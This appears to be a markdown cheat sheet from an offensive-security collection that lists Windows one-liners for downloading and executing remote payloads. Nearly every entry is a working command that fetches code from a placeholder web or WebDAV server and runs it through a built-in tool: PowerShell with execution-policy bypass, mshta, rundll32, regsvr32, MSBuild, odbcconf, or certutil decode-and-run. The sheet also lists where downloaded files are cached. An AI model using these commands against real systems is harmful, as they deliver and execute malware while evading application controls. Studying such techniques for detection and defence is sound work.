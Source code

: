 # Windows - Download and execute methods

## Downloaded files location
- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell
From an HTTP server
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

From a Webdav server
```
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd
```
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript
```
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta
```
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```
mshta http://webserver/payload.hta
```

```
mshta \\webdavserver\folder\payload.hta
```

## Rundll32
```
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee
```
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf
```
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```


## Msbuild
```
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil
```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```




## Thanks to
 * [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
